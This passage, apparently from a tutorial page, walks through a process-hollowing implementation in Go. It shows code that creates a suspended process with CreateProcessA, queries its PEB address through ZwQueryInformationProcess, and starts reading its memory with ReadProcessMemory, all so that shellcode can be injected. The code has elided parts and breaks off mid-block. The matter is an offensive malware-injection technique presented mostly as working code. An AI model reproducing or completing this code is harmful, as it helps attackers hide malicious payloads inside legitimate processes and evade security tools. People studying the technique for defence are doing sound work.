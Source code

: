 ```go
  [out]               LPPROCESS_INFORMATION lpProcessInformation
);

*/

  CreateProcessA.Call(0, uintptr(unsafe.Pointer(&cmd[0])), 0, 0, 0, 0x4, 0, 0, uintptr(unsafe.Pointer(si)), uintptr(unsafe.Pointer(pi)))

  ...
}
```

To continue with the hollowing, we need to know the `ImageBaseAddress` and to do so we will use `ZwQueryInformationProcess`

```go
func ProcessHollowing(shellcode []byte, cmd string) error {
  ...

  var returnLength int32
  pointerSize := unsafe.Sizeof(uintptr(0))

/*

NTSTATUS WINAPI ZwQueryInformationProcess(
  _In_      HANDLE           ProcessHandle,
  _In_      PROCESSINFOCLASS ProcessInformationClass,
  _Out_     PVOID            ProcessInformation,
  _In_      ULONG            ProcessInformationLength,
  _Out_opt_ PULONG           ReturnLength
);

*/

  ZwQueryInformationProcess.Call(uintptr(pi.Process), 0, uintptr(unsafe.Pointer(&pbi)), pointerSize*6, uintptr(unsafe.Pointer(&returnLength)))

  imageBaseAddress := pbi.PebBaseAddress + 0x10

  ...
}
```

Then, we call `ReadProcessMemory` to read the memory in order to parse the PROCESS_BASIC_INFORMATION struct and find the `ImageBaseValue`

```go
func ProcessHollowing(shellcode []byte, cmd string) {
  ...

  addressBuffer := make([]byte, pointerSize)
  var read uintptr

/*

BOOL ReadProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPCVOID lpBaseAddress,
  [out] LPVOID  lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesRead
);

*/

```